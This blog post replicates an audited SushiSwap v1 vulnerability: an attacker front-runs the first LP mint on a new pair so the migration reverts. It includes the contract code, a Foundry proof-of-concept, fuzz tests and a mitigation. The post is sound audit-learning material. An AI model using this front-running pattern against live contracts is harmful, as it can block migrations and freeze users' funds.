



Replicating and Fuzzing a SushiSwap Migration Vulnerability
By 0xh4ty - 2025-07-01 - 10 min read
Introduction
Hello and welcome. I hope you are doing well. Over the past few weeks, I went through a lot of learning. My initial approach of using bug classes as an anchor had flaws, and trying to box those into a fixed timeline turned out to be a failed model. I realized that shifting the anchor to protocol audit reports was a better strategy. Audit reports are a gold mine for a budding smart contract auditor, acting almost like CTF writeups.
Another realization was the importance of understanding the protocol as a whole, rather than isolating and searching for bugs in a vacuum. In my opinion, this combination is a stronger method for learning smart contract auditing, not necessarily the best, but certainly better.
In this blog, I will share my experience replicating a high-severity vulnerability from the PeckShield audit report on SushiSwap v1, and explain the migration mechanism, which played a central role in the infamous Vampire Attack. I will also discuss how I used stateless and stateful fuzzing on this migration logic, along with the hurdles I faced and how I solved them.
Note: You can find my complete SushiSwap v1 port and fuzz testing lab here: github.com/0xh4ty/sushiswap-v1-exploit-lab.
Let’s dive in.
Background
SushiSwap v1 was a fork of Uniswap v2, and both of them are Automated Market Makers, or AMMs for short. An AMM holds liquidity pools within its protocol to enable token swapping. In these versions of SushiSwap and Uniswap, the price was determined by the constant product formula, x * y = k.
In Uniswap v2, liquidity providers stake their token pairs in the protocol and receive LP tokens in return. These LP tokens represent ownership of the deposited liquidity. For every swap, LPs earn a 0.3% fee, paid proportionally to their share of the pool.
SushiSwap, wanting to capture Uniswap’s TVL, introduced additional incentives by rewarding LPs who staked with SUSHI tokens. These SUSHI tokens could then be further staked to earn xSUSHI. This encouraged many LPs to deposit their Uniswap LP tokens into SushiSwap’s MasterChef contract.
This was only Phase 1 of their Vampire Attack. In Phase 2, the SushiSwap team (via MasterChef) triggered the migrate() function to transfer all of the users’ staked Uniswap LP tokens into brand-new SushiSwap pools. This effectively moved the underlying liquidity, stealing away a huge portion of Uniswap’s TVL.
Understanding the Migration Mechanism
The migration mechanism is spread across three main contracts and three key functions: the migrate() function in MasterChef.sol, the migrate() function in Migrator.sol, and the mint() function in UniswapV2Pair.sol. (The related code snippets are shown below.)
The MasterChef.migrate() function acts as the user-facing trigger, allowing any user to start migrating their LP tokens. It checks for the migrator address, approves its balance, and then relies on the migrator to actually execute the move.
The Migrator.migrate() function handles burning the user’s LP tokens on Uniswap, redeeming the underlying assets, and then minting equivalent new LP tokens on SushiSwap. It ensures the migration is only called by MasterChef, validates timing (block number), and confirms the old factory.
The UniswapV2Pair.mint() function mints new LP tokens for the user in SushiSwap’s pool. It takes the redeemed token balances, applies the constant-product formula to compute liquidity, and finalizes the new LP share for the migrating user.
MasterChef.sol
// Migrate LP token to another LP contract. Can be called by anyone. We trust that
// the migrator contract is good.
function migrate(uint256 _pid) public {
require(address(migrator) != address(0), "migrate: no migrator");
PoolInfo storage pool = poolInfo[_pid];
IERC20 lpToken = pool.lpToken;
uint256 bal = lpToken.balanceOf(address(this));
lpToken.safeApprove(address(migrator), bal);
IERC20 newLpToken = migrator.migrate(lpToken);
require(bal == newLpToken.balanceOf(address(this)), "migrate: bad");
pool.lpToken = newLpToken;
}
Migrator.sol
function migrate(IUniswapV2Pair orig) public returns (IUniswapV2Pair) {
require(msg.sender == chef, "not from master chef");
require(block.number >= notBeforeBlock, "too early to migrate");
require(orig.factory() == oldFactory, "not from old factory");
address token0 = orig.token0();
address token1 = orig.token1();
IUniswapV2Pair pair = IUniswapV2Pair(factory.getPair(token0, token1));
if (pair == IUniswapV2Pair(address(0))) {
pair = IUniswapV2Pair(factory.createPair(token0, token1));
}
uint256 lp = orig.balanceOf(msg.sender);
if (lp == 0) return pair;
desiredLiquidity = lp;
orig.transferFrom(msg.sender, address(orig), lp);
orig.burn(address(pair));
pair.mint(msg.sender);
desiredLiquidity = uint256(-1);
return pair;
}
UniswapV2Pair.sol
function mint(address to) external lock returns (uint liquidity) {
(uint112 _reserve0, uint112 _reserve1,) = getReserves();
uint balance0 = IERC20Uniswap(token0).balanceOf(address(this));
uint balance1 = IERC20Uniswap(token1).balanceOf(address(this));
uint amount0 = balance0 - _reserve0;
uint amount1 = balance1 - _reserve1;
bool feeOn = _mintFee(_reserve0, _reserve1);
uint _totalSupply = totalSupply;
if (_totalSupply == 0) {
address migratorAddr = IUniswapV2Factory(factory).migrator();
if (msg.sender == migratorAddr) {
liquidity = IMigrator(migratorAddr).desiredLiquidity();
require(liquidity > 0 && liquidity != uint256(-1), "Bad desired liquidity");
} else {
require(migratorAddr == address(0), "Must not have migrator");
liquidity = Math.sqrt(amount0 * amount1) - MINIMUM_LIQUIDITY;
}
_mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
} else {
liquidity = Math.min(amount0 * _totalSupply / _reserve0, amount1 * _totalSupply / _reserve1);
}
require(liquidity > 0, 'UniswapV2: INSUFFICIENT_LIQUIDITY_MINTED');
_mint(to, liquidity);
_update(balance0, balance1, _reserve0, _reserve1);
if (feeOn) kLast = uint(reserve0) * reserve1;
emit Mint(msg.sender, amount0, amount1);
}
Audit Finding Reference
The vulnerability I replicated corresponds to Finding PVE-001 from the PeckShield audit report:
- Title: Potential Front-Running For Migration Blocking
- ID: PVE-001
- Target: UniswapV2Pair
- Severity: High
- Category: Time and State
- Likelihood: Medium
- CWE subcategory: CWE-663
- Impact: High
The original code I studied came from the SushiSwap v1 repository:
https://github.com/sushiswap/sushiswap
at commit hash 180bc9b.
Replicating the PeckShield Finding
A critical assumption in SushiSwap’s migration mechanism is that the migrator contract will be the first to mint new LP tokens. However, if an attacker front-runs and mints before the migrator, the migration fails, effectively blocking the intended migration and freezing funds in the contract.
I built a proof-of-concept to replicate and confirm this bug. The full test is available on GitHub, and a relevant snippet is shown below:
function testMigrationBlockedByFrontRun() public {
// attacker front-runs before migrator is even known
vm.startPrank(attacker);
address newPairAddr = newFactory.getPair(address(token0), address(token1));
newPair = UniswapV2Pair(newPairAddr);
newLP = IERC20(address(newPair));
// attacker seeds tiny liquidity to poison the new pair
deal(address(newPair.token0()), attacker, 1 ether);
deal(address(newPair.token1()), attacker, 2 ether);
IERC20(newPair.token0()).transfer(address(newPair), 1 ether);
IERC20(newPair.token1()).transfer(address(newPair), 2 ether);
newPair.mint(attacker);
vm.stopPrank();
// now deploy and set migrator after attacker minted
migrator = new Migrator(address(chef), address(oldFactory), newFactory, block.number);
chef.setMigrator(IMigratorChef(address(migrator)));
newFactory.setMigrator(address(migrator));
vm.expectRevert("migrate: bad");
chef.migrate(0);
}
Fuzzing Experiments
Porting from solidity 0.6.12 to ^0.8.25
The whole SushiSwap v1 project was written in Solidity 0.6.12 at a time when Truffle was the popular framework for testing. But Truffle lacked modern methods of testing, unlike Foundry, which supports advanced testing techniques including fuzzing. Foundry, however, only supports fuzz testing for contracts written in Solidity 0.8 and above. That forced me not just to port the SushiSwap project from Truffle to Foundry, but also from Solidity 0.6.12 to ^0.8.25.
Key changes included:
-
Updating all pragma statements
-
Removing SafeMath and adjusting arithmetic since 0.8+ has built-in overflow checks
-
Adapting OpenZeppelin’s Ownable to require an initial owner
-
Fixing type mismatches between uint8 and uint256
-
Replacing deprecated constructs like now with block.timestamp
Stateless Fuzzing Approach
For the stateless fuzzing experiment, I took the original POC’s test function and randomized the amount of token1 while keeping token0 constant. The test ensured that regardless of the attacker’s fuzzed amounts, the migration would consistently revert as expected, confirming the exploitability of the first mint assumption under varied conditions.
The code below shows a snippet of the stateless fuzz test, and the full file can be found here.
function testMigrationBlockedByFrontRunStatelessFuzz(uint256 fuzzAmount) public {
// attacker front-runs with a fuzzed poisoned pair
vm.startPrank(attacker);
address newPairAddr = newFactory.getPair(address(token0), address(token1));
newPair = UniswapV2Pair(newPairAddr);
newLP = IERC20(address(newPair));
uint256 amount0 = 1 ether;
uint256 amount1 = bound(fuzzAmount, 2 ether, 10_000 ether);
deal(address(newPair.token0()), attacker, amount0);
deal(address(newPair.token1()), attacker, amount1);
IERC20(newPair.token0()).transfer(address(newPair), amount0);
IERC20(newPair.token1()).transfer(address(newPair), amount1);
newPair.mint(attacker);
vm.stopPrank();
// set migrator after attacker has poisoned
migrator = new Migrator(address(chef), address(oldFactory), newFactory, block.number);
chef.setMigrator(IMigratorChef(address(migrator)));
newFactory.setMigrator(address(migrator));
vm.expectRevert("migrate: bad");
chef.migrate(0);
}
Stateful Fuzzing and Invariant Testing
For the stateful fuzz test, I created a MigrationHandler that could repeatedly and randomly call functions to simulate three typical user actions: setting the migrator, adding liquidity, and attempting a migration. This helped test the migration behavior under realistic, unpredictable sequences of operations.
function maybeSetMigrator(uint256 randomness) public {
if (!migratorSet && randomness % 2 == 0) {
chef.setMigrator(IMigratorChef(address(migrator)));
newFactory.setMigrator(address(migrator));
migratorSet = true;
}
}
function addLiquidity(uint256 amount0, uint256 amount1) public {
amount0 = bound(amount0, 1 ether, 1000 ether);
amount1 = bound(amount1, 1 ether, 1000 ether);
deal(address(token0), address(this), amount0);
deal(address(token1), address(this), amount1);
token0.transfer(address(oldPair), amount0);
token1.transfer(address(oldPair), amount1);
oldPair.mint(address(this));
}
function tryMigrate(uint256 pid) public {
if (!migratorSet) return;
(IERC20 lpToken,,,) = chef.poolInfo(pid);
uint256 staked = lpToken.balanceOf(address(chef));
if (staked == 0) return;
try chef.migrate(pid) {
console.log("Migration succeeded");
} catch (bytes memory reason) {
console.logBytes(reason);
}
}
I defined two invariants to validate the correctness of this randomized fuzzing:
- LP balance consistency: After migration, the LP balance of the chef should match across the old and new pairs.
- Reserve consistency: After migration, the reserves between the old and new pools should remain close enough to preserve price integrity.
function invariant_migrationConsistency() public view {
uint256 oldBalance = oldPair.balanceOf(address(chef));
uint256 newBalance = newPair.balanceOf(address(chef));
if (handler.isMigratorSet()) {
assertEq(newBalance, oldBalance, "migration LP mismatch between old and new pair");
}
}
function invariant_reservesSynced() public view {
(uint256 r0old, uint256 r1old,) = oldPair.getReserves();
(uint256 r0new, uint256 r1new,) = newPair.getReserves();
if (handler.isMigratorSet()) {
assertApproxEqAbs(r0old, r0new, 1, "reserve0 mismatch after migration");
assertApproxEqAbs(r1old, r1new, 1, "reserve1 mismatch after migration");
}
}
You can view the complete source code for this Stateful Fuzz test here.
Results and Observations
Front Run POC
The front-running vulnerability occurs when there is a delay between the creation of token pairs and the setting of the migrator address. The proof-of-concept demonstrated how easily this could be exploited in a real-world scenario. The test output is shown below.

Stateless Fuzz Test
The stateless fuzz test confirmed that the exploit consistently triggered across different randomized token amounts, validating the weakness. The output is provided below.

Stateful Fuzz Test
The stateful fuzz test was conducted independently of the exploit, under the assumption that there was no timing gap between token pair creation and migrator configuration. In these conditions, the migration mechanism remained consistent across various action sequences. The output is shown below.

Reflections
The front-running vulnerability discussed above is notoriously dangerous. Protocol developers should pay close attention to this attack vector and implement appropriate preventative measures. One recommended mitigation is to deploy the contracts in a coherent manner within a single transaction, leaving no window for a front-running attack.
Conclusion
As I mentioned at the beginning of this post, shifting to a learning method based on past audit reports and replicating their findings was something I arrived at after seeing the flaws in my earlier approaches. This method may have its own drawbacks, but it allowed me to fully reason through a vulnerability and better understand the components of SushiSwap.
Another advantage is the opportunity to experiment with real-world protocols instead of toy contracts. Learning to apply fuzz testing was one of my goals when I adopted this strategy, and SushiSwap turned out to be an excellent target for these experiments.
If you want to explore or build on this yourself, the full lab is public here: github.com/0xh4ty/sushiswap-v1-exploit-lab.
See you in the next one. Cheers!